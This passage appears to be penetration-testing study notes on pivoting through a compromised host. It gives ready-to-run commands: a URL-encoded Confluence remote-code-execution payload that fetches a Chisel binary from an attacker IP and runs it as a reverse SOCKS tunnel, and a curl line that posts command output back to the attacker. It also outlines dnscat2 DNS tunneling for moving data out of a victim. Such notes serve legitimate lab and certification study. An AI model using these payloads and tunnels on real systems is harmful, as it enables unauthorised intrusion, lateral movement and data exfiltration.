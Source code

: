```bash
sudo apt install ncat
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215

```

Victim

* Download and run Chisel client
* Run Chisel client from web shell
* R:socks Reverse Tunnel via socks on default port 1080
* curl --data @/tmp/output http://192.168.118.4:8080/

```bash
# Download Chisel client
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel

# Put together into curl for exploiting Confluence RCE
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/




# Run Chisel client from web shell and report back error to the Attacker on port 8080
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/ 
# Run Chisel client from web shell in background
/tmp/chisel client 192.168.118.4:8080 R:socks &> /dev/null 2&1 &


# Put together into curl for exploiting Confluence RCE
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/

```

## DNS Tunneling using dsncat2

Scenario

* **Limitation**: Require that Attacker has shell access to authoritive DNS
* **Limitation**: DNS Tunneling with dnscat is not stealthy, use it carefully
* Attacker has shell access to Victim
* Install `sudo apt install dnscat2` on a controlled authoritive DNS
* Download dnscat2 from <https://downloads.skullsecurity.org/dnscat2/> or compile from GitHub <https://github.com/iagox86/dnscat2>
* Start dnscat2-server on authoritive DNS server for the domain
* Start dnscat2-client from Victim to infiltrate/exfiltrate data to/from Victim
* Establish a SSH like -L tunnel using listen command
* Attack server behind the tunnel from Kali
